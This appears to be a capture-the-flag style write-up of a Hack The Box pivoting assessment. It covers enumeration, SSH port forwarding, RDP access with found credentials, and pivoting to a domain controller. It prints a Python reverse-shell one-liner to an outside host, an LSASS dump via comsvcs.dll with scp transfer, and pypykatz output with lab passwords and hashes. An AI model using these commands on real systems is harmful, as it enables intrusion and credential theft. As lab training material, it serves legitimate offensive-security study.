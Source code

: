 # Assessment

## Enumeration

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption><p>webadmin</p></figcaption></figure>

Seems to be a Linux host running on this system and there are 2 interfaces as below.

<figure><img src="../../.gitbook/assets/image (31) (1) (1).png" alt=""><figcaption><p>another network segment that we could use to pivot.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption><p>mlefay:Plain Human work!</p></figcaption></figure>

I decided to get a reverse shell for more control over the foothold sytem.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",7890));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption><p>but it wasn't nessesary</p></figcaption></figure>

I moved the id\_rsa file and ssh to the system with that file. Now I'm in the system with the same credentials but with ssh.

Next I will try to dynamic port forward with ssh.

Then perform nmap scan to find the host that are up.

<figure><img src="../../.gitbook/assets/image (15) (2).png" alt=""><figcaption><p>172.16.5.35</p></figcaption></figure>

## Scan Host2

**Scan result**

```
Nmap scan report for 172.16.5.35
Host is up (0.20s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 204.43 seconds
```

now we know that RDP is open on this system we can try to use the credentials against the this host.

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption><p>pivot-srv01/mlefay</p></figcaption></figure>

We got access to the pivot-srv01/mlefay and as a local Admin.&#x20;

```
PS C:\Windows\system32> Get-WmiObject -Class Win32_UserAccount -Filter "LocalAccount='True' AND Disabled='False'"

AccountType : 512
Caption     : PIVOT-SRV01\Administrator
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-500
FullName    :
Name        : Administrator

AccountType : 512
Caption     : PIVOT-SRV01\apendragon
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-1002
FullName    : apendragon
Name        : apendragon

AccountType : 512
Caption     : PIVOT-SRV01\mlefay
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-1003
FullName    : mlefay
Name        : mlefay
```

**2nd Interface 172.16.6.35**

```
PS C:\Windows\system32> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::7dab:2573:1024:6c4a%4
   IPv4 Address. . . . . . . . . . . : 172.16.5.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.5.1

Ethernet adapter Ethernet1 2:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::e041:c210:35fe:c55a%5
   IPv4 Address. . . . . . . . . . . : 172.16.6.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . :
```

To find the users credentials through the lsass filem, we dump the lsass process and scp to the webadmin host using the following command.

```powershell
Get-Process lsass
# get the process lsass was running

rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
# dump the lsass

scp -i .\id_rsa C:\lsass.dmp webadmin@172.16.5.15:~/
# transfer the lsass to webadmin
```

Properties -> Security -> Advanced -> Disable inheritance -> Add -> Select a principal -> Enter the object name to select (add windows username) -> (check full control) -> OK -> Apply -> OK

All the above settings is just to set the permission of the id\_rsa file `chmod 0400 id_rsa` 😒

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption><p>make sure the orders are correct because Windows is trash.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (42) (1).png" alt=""><figcaption><p>Transfer file from pivot host to </p></figcaption></figure>

using `pypykatz lsa minidump lsass.dmp` we found the user `vfrank:Imply wet Unmasked!`

```
== LogonSession ==
authentication_id 160373 (27275)
session_id 0
username vfrank
domainname INLANEFREIGHT
logon_server ACADEMY-PIVOT-D
logon_time 2023-07-02T11:06:10.741078+00:00
sid S-1-5-21-3858284412-1730064152-742000644-1103
luid 160373
        == MSV ==
                Username: vfrank
                Domain: INLANEFREIGHT
                LM: NA
                NT: 2e16a00be74fa0bf862b4256d0347e83
                SHA1: b055c7614a5520ea0fc1184ac02c88096e447e0b
                DPAPI: 97ead6d940822b2c57b18885ffcc5fb4
        == WDIGEST [27275]==
                username vfrank
                domainname INLANEFREIGHT
                password None
                password (hex)
        == Kerberos ==
                Username: vfrank
                Domain: INLANEFREIGHT.LOCAL
                Password: Imply wet Unmasked!
                password (hex)49006d0070006c0079002000770065007400200055006e006d00610073006b006500640021000000
        == WDIGEST [27275]==
                username vfrank
                domainname INLANEFREIGHT
                password None
                password (hex)
        == DPAPI [27275]==
                luid 160373
                key_guid 560f4286-76f2-4f0f-90a9-5135bbc0104f
                masterkey 4fc3adb204f30f6a226f637b66be93811cee121eaed0e4ec2e8bc023d2d38d396e0c4e827aa49c6b1c2a58f6428ca725be027497ad10f8dd386d5926e7bf73b7
                sha1_masterkey a3e3a61d9a74541a56c3a822d5470bedbb2d4fb5
```

I then performed a **ping sweep** on the 172.16.6.X to find another host to pivot to using cmd.

```
for /L %i in (1,1,255) do @ping -n 1 -w 200 172.16.6.%i > nul && echo 172.16.6.%i is up
```

and we found the following address

<figure><img src="../../.gitbook/assets/image (75) (1).png" alt=""><figcaption><p>172.16.6.25</p></figcaption></figure>

Since 172.16.6.35 is our address we can ignore that and focus on 172.16.6.25

Now that we know the ipaddress of the target and we have the credentials, next is to try remote desktop connection (we know from the question of hack the box that the target is running windows. becase the flag is located in C:\Flag.txt)

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption><p>And just like that we are in and got the flag.</p></figcaption></figure>

next we found another interface on this machine and seems like we have to perform double pivots. However I'm not sure about the credentials on the Domain Controller.

It was not the case here. I found the flag in the C directory where the DC admin files system was already mounted lol

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
